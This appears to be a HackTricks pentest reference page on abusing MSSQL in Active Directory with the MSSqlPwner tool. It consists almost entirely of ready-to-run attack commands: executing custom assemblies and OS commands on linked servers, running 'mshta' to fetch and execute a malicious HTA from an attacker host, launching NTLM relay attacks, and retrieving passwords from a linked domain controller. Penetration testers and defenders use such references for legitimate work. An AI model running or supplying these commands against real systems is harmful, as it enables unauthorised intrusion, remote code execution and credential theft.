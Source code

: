 # MSSQL AD Abuse

## [MSSQL AD Abuse](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/abusing-ad-mssql.html#mssql-ad-abuse) <a href="#mssql-a-d-abuse" id="mssql-a-d-abuse"></a>

The [MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner) tool is based on impacket, and allows also authenticate using kerberos tickets, and attack through link chains

<figure><img src="https://raw.githubusercontent.com/ScorpionesLabs/MSSqlPwner/main/assets/interractive.png" alt=""><figcaption></figcaption></figure>

```shell
# Interactive mode
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth interactive

# Interactive mode with 2 depth level of impersonations

mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -max-impersonation-depth 2 interactive

# Executing custom assembly on the current server with windows authentication and executing hostname command

mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth custom-asm hostname

# Executing custom assembly on the current server with windows authentication and executing hostname command on the SRV01 linked server

mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 custom-asm hostname

# Executing the hostname command using stored procedures on the linked SRV01 server

mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 exec hostname

# Executing the hostname command using stored procedures on the linked SRV01 server with sp_oacreate method

mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 exec "cmd /c mshta http://192.168.45.250/malicious.hta" -command-execution-method sp_oacreate

# Issuing NTLM relay attack on the SRV01 server

mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25

mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command

mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250

# Executing direct query

mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth direct-query "SELECT CURRENT_USER"

# Retrieving password from the linked server DC01

mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-server DC01 retrive-password

# Execute code using custom assembly on the linked server DC01
```